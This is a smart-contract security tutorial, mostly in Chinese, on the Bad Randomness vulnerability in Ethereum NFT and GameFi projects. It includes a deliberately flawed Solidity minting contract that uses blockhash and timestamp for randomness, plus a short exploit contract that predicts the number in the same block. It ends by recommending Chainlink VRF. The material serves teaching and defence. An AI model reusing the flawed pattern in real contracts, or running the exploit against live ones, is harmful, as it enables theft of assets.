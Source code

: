 ```yaml
---
title: Bad Randomness
displayed_sidebar: generalSidebar
keywords:
  - smart contracts
  - security
  - vulnerabilities
  - randomness
  - nft
  - gamefi
  - ethereum
  - solidity
  - pseudo-random
  - blockhash
  - keccak256
  - chainlink-vrf
tags:
  - Bad Randomness
  - Security
  - 智能合约
---
```


# Bad Randomness

## 伪随机数

以太坊上的许多应用程序，比如 NFT 随机 tokenId 抽奖、盲盒开启和 GameFi 战斗结果，都依赖于随机数。 然而，由于以太坊上的所有数据都是公开和确定性的，传统的随机生成方法如 `random()` 并不可用。

相反，项目通常使用伪随机数生成器，`blockhash()`和`keccak256()`。 This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

这种漏洞在NFT和GameFi项目中很常见，包括Meebits, Loots, and Wolf Game。 它已经造成了重大的财务损失，比如 SmartBillions 彩票漏洞，攻击者利用可预测的结果赢得了超过 400 ETH。 更多信息请参阅文章, [区块链彩票被黑客攻击，损失12万美元](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/)。

## Example of a Bad Randomness Vulnerability

我们来探讨一个存在漏洞的NFT合约，`FlawedRandomizer.sol`。

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

主函数`mintIfLucky()`要求用户输入一个`0-99`之间的数字。 如果与链生成的伪随机数 `pseudoRandomNumber`匹配，则可以铸造一枚幸运的NFT。 漏洞在于用户能够完全预测生成的随机数并铸造NFT。

我们编写一个攻击合约`Exploit.sol`。

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

函数`executeMint()` 以`FlawedRandomizer`合约地址为参数。 在这里，我们计算`predictedNumber`，然后将其传递到`mintIfLucky()` 函数来执行攻击。 由于在同一个区块中调用`executeMint()` 和 `mintIfLucky()`，`blockhash`和`block.timestamp`是相同的，因此可以预测生成的随机数字。

## 预防策略

使用Oracle项目提供的链下随机数来防止这种类型的漏洞，例如Chainlink VRF。 这些随机数是在链下生成的，并上传到区块链，确保它们是不可预测的。
